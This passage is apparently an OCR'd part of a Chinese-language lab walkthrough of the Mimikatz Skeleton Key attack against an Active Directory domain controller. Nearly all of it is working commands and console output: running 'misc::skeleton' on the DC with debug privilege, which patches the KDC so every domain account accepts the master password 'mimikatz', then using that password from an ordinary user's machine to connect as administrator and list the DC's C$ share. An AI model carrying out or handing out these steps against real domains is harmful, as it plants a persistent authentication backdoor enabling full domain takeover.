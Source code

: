 ```dos
               5 个目录 32,728,838,144 可用字节

C:\Users\xiaomi>net use
状态       本地        远程                      网络
-------------------------------------------------------------------------------
OK                     \\dc.xiaomi.org\ipc$      Microsoft Windows Network
命令成功完成。

C:\Users\xiaomi>net use \\dc.xiaomi.org\ipc$ /del /y
\\dc.xiaomi.org\ipc$ 已经删除。

C:\Users\xiaomi>net use
列表是空的。
```

### 步骤2（DC上执行，管理员权限）
在DC上运行Mimikatz植入Skeleton Key：
```dos
C:\Users\Administrator\Desktop\mimikatz_trunk\x64>mimikatz.exe "privilege::debug" "misc::skeleton" exit

  .#####.   mimikatz 2.1.1 (x64) built on Apr  9 2017 23:24:20
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 21 modules * * */

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # misc::skeleton
[KDC] data
[KDC] struct
[KDC] keys patch OK
[RC4] functions
[RC4] init patch OK
[RC4] decrypt patch OK

mimikatz(commandline) # exit
Bye!
```

**结果**：Skeleton Key注入成功，域内所有账户添加默认密码“mimikatz”。

### 步骤3（PC上执行，普通域用户权限）
使用Skeleton Key以管理员身份访问DC：
```dos
C:\Users\xiaomi>net use \\dc.xiaomi.org\ipc$ "mimikatz" /user:xiaomi\administrator
命令成功完成。

C:\Users\xiaomi>dir \\dc.xiaomi.org\c$
驱动器 \\dc.xiaomi.org\c$ 中的卷没有标签。
卷的序列号是 50E9-7D0C

\\dc.xiaomi.org\c$ 的目录
2009/07/14  11:20    <DIR>          PerfLogs
2020/03/23  15:24    <DIR>          Program Files
2020/03/23  15:24    <DIR>          Program Files (x86)
2020/03/23  14:47    <DIR>          Users
2020/03/23  15:30    <DIR>          Windows
               0 个文件              0 字节
               5 个目录 32,758,198,272 可用字节
```